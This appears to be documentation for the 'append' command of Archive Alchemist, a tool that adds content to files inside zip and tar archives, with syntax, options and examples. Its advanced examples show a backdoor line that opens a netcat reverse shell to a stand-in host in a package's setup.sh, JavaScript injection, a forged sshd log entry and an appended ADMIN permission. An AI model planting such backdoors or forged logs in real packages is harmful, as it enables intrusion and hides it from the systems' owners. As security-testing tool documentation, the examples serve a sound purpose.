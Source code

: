 # Archive Alchemist: append Command

## Overview

The `append` command adds additional content to the end of existing files in an archive. This allows you to modify files without replacing their entire content, which is useful for adding configuration lines, injecting code, or extending log files.

## Syntax

```bash
./archive-alchemist.py -f <archive> [-t <type>] append <path> [options]
```

## Options

| Option | Description | Default | Example |
|--------|-------------|---------|---------|
| `<path>` | Path within the archive to append to (required) | N/A | `file.txt`, `config.ini`, `logs/app.log` |
| `--content` | Text content to append to the file | Empty | `--content "\nAdditional line"` |
| `--content-file` | Path to a local file whose content should be appended | None | `--content-file /path/to/append-content.txt` |

**Note**: Either `--content` or `--content-file` must be specified.

## Examples

### Append Text to a File

```bash
# Append a new line to a text file
./archive-alchemist.py -f archive.zip append config.txt --content "\nport=8080"

# Append content without a newline
./archive-alchemist.py -f archive.zip append data.txt --content "appended text"
```

### Append Content from Another File

```bash
# Append content from a local file
./archive-alchemist.py -f archive.tar -t tar append logs/app.log --content-file /path/to/new_logs.txt
```

### Append Multiple Lines

```bash
# Append multiple lines to a configuration file
./archive-alchemist.py -f archive.zip append config.ini --content "\n[new_section]\nkey1=value1\nkey2=value2"
```

### Append to Binary Files

```bash
# Append data to a binary file
./archive-alchemist.py -f archive.zip append data.bin --content-file /path/to/binary_chunk
```

## Advanced Examples

### Injecting Code

```bash
# Inject JavaScript code into a JS file
./archive-alchemist.py -f webapp.zip append assets/js/main.js --content "\n\nalert('Injected code');"

# Append a backdoor to a shell script
./archive-alchemist.py -f package.tar -t tar append setup.sh --content "\n\n# Backdoor\nnc -e /bin/sh attacker.com 1337 &"
```

### Adding Lines to Log Files

```bash
# Append fake log entries
./archive-alchemist.py -f logs.zip append system.log --content "\nJun 15 14:30:45 server sshd[1234]: Accepted password for admin from 192.168.1.1"
```

### Adding Configuration Options

```bash
# Append new configuration options
./archive-alchemist.py -f app.zip append config/settings.xml --content "\n  <permission>ADMIN</permission>"
```

## Notes and Warnings

- The `append` command works only on existing files. If the specified file doesn't exist in the archive, the command will fail. Use the `add` command first if the file doesn't exist.

- When appending content, be mindful of line endings. If you want to start the appended content on a new line, include a newline character (`\n`) at the beginning of your content.

- Appending to binary files is supported, but you need to be careful about the format of the binary file. Appending arbitrary data to some binary formats (like compressed files, images, or executables) may corrupt them.

- The `append` command preserves the file's original attributes (mode, ownership, timestamps). To modify attributes while appending, use the `replace` command instead.

- For TAR archives with compression (tar.gz, tar.xz, tar.bz2), the entire archive needs to be rewritten when appending, which may take longer for large archives.

- Some text files may use specific line endings (Windows uses CRLF, Unix uses LF). Be aware of this when appending content to maintain consistency.